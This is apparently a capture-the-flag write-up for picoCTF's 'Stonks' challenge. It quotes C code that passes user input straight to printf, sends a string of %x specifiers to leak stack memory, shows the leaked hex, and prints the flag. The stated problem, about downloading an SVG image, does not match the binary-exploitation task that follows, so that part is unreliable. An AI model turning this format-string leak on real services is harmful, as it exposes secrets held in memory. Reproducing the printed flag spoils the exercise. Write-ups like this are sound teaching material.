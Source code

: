 # Stonks

## Problem Statement

Download this image file and find the flag.
[Download image file](https://artifacts.picoctf.net/c/138/drawing.flag.svg)
## Type

Binary Exploitation

## Hints

1. Okay, maybe I'd believe you if you find my API key.

## Approach
On reading the code we can see that this statement is vulnerable
```
	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);
```
as there is no string formatting which means we can extract hex values.

so we input a bunch of `%x%x%x%x%x%x%x%x` and get 
```8d6f3d0804b00080489c3f7fa3d80ffffffff18d6d160f7fb1110f7fa3dc708d6e18028d6
f3b08d6f3d06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e346364626
1653532ffe0007df7fdeaf8f7fb14405b93470010f7e40ce9f7fb20c0f7fa35c0f7fa3000ffe
08bd8f7e3168df7fa35c08048ecaffe08be40f7fc5f09804b000f7fa3000f7fa3e20ffe08c18
f7fcbd50f7fa48905b934700f7fa3000804b000ffe08c188048c868d6d160ffe08c04ffe08c1
88048be9f7fa33fc0ffe08cccffe08cc41
```
as our token, on converting this we get our flag in big endian, anfter switching the endians we get our flag.



## Flag

picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}